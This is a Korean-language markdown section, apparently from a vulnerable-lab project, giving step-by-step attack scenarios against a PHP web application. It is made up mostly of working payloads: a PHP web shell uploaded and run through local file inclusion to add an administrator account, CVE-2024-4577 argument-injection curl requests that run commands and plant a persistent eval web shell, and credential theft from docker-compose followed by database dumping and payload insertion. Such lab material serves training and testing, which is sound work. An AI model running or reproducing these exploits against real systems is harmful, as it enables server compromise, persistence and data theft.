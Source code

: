 ### 시나리오 2: 웹쉘 업로드 및 실행

```bash
# 1. 웹쉘 파일 준비
echo '<?php system($_GET["c"]); ?>' > backdoor.php

# 2. 문의하기 양식으로 업로드
# http://localhost:8000/inquiry-form.php
# 파일: backdoor.php

# 3. LFI로 실행
http://localhost:8000/support.php?template=../uploads/backdoor&c=whoami

# 4. 권한 상승
http://localhost:8000/support.php?template=../uploads/backdoor&c=net user hacker P@ss123! /add
```

### 시나리오 3: CVE-2024-4577 공격 (Windows 환경)

```bash
# 1. 취약점 확인
curl -X POST "http://target/support.php?lang=ko%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" \
  -d "<?php phpinfo(); ?>"

# 2. 시스템 정보 수집
curl -X POST "http://target/product.php?lang=en%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" \
  -d "<?php system('systeminfo'); ?>"

# 3. 계정 정보 탈취
curl -X POST "http://target/company.php?lang=ko%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" \
  -d "<?php system('net user'); ?>"

# 4. Persistent 웹쉘 설치
curl -X POST "http://target/support.php?lang=en%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" \
  -d "<?php file_put_contents('C:\\xampp\\htdocs\\shell.php', '<?php eval(\$_POST[x]); ?>'); ?>"
```

### 시나리오 4: 데이터베이스 공격

```bash
# 1. DB 인증정보 획득 (docker-compose.yml)
http://localhost:8000/notice.php?page=../docker-compose.yml

# 출력:
# MYSQL_USER: admin
# MYSQL_PASSWORD: password
# MYSQL_DATABASE: ota_db

# 2. 외부에서 DB 접속 (포트 3307 노출)
mysql -h localhost -P 3307 -u admin -ppassword ota_db

# 3. 데이터 탈취
SELECT * FROM inquiries;
SELECT * FROM users;  # 존재한다면

# 4. 악성 데이터 삽입
INSERT INTO inquiries (message) VALUES ('<?php system($_GET[c]); ?>');
```

---